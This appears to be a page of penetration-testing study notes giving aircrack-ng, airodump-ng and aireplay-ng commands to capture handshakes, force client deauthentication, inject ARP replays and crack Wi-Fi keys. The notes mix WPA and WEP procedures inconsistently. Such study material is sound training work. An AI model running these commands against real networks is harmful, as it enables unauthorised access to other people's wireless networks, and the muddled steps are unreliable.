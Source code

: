 ## Cracking WPA/WPA2 PSK

**The biggest difference between WPA/WPA2 and WPE cracking is the use of a wordlist in the former**
````
aircrack-ng -w /path/to/wordlist.txt -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* Stop network manager
````
service network-manager stop
````

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill **OR** airmon-ng check kill-all
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mo
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Identify the channel of the target AP, 
````
airmon-ng start wlan0
sudo airodump-ng wlan0mon <- Identify AP channel here
sudo airodump-ng stop wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/monitor_mode_channel.png.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Test Packet Injection**
````
aireplay-ng -9 -e <network name> -a <target MAC> <interface>
````

**5) Capture hnadshake from the AP**
* If you cannot capture a handshake, force a client to reconnect using aireplay-ng -deauth
* When a handshake is captured, look in the upper right corner for "WPA handshake"...
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/handshake.png)
````
airodump-ng -c 3 --bssid D8:0D:17:81:3F:CC -w target_iphone wlan0mon
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/capture_iv.png)

**6) Initiate Fake Authentication**
* Do this step concurrently with the step 5 to capture all the data you have replayed.
````
sudo aireplay-ng -1 0 -e lab -a D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/fake_authentication.png)

**7) Start aireplay in ARP request replay mode**
* When the program identifies an ARP request, it will immediately strat to inject it.
````
aireplay-ng -3 -b D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/injection.png)


**8) Crack the WEP key**
````
aircrack-ng -w /path/to/some/wordlist.txt -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````
